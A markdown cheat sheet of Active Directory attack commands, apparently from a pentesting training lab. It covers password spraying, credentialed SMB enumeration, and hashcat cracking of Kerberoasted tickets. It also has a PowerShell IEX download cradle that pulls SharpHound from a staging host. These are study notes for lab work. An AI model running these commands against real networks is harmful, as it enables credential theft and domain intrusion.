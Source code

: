 ## Password Spraying & Password Policies

### Commands

| Command | Description |
|---------|-------------|
| `#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done` | Generates 16,079,616 possible username combinations in Bash. |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Enumerates password policies using valid credentials. |
| `rpcclient -U "" -N 172.16.5.5` | Discovers domain information through SMB NULL sessions. |
| `enum4linux -P 172.16.5.5` | Enumerates the password policy in a Windows domain. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength` | Uses LDAP to enumerate password policies. |

## Credentialed Enumeration

### Commands

| Command | Description |
|---------|-------------|
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over SMB and attempts to discover users. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over SMB and attempts to discover groups. |

## File Transfers

### Commands

| Command | Description |
|---------|-------------|
| `sudo python3 -m http.server 8001` | Starts a Python web server for file hosting. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | Downloads a file using PowerShell. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts an Impacket SMB server for hosting files. |

## Kerberoasting

### Commands

| Command | Description |
|---------|-------------|
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Lists SPNs on the target domain. |
| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force` | Cracks Kerberos ticket hashes using Hashcat. |
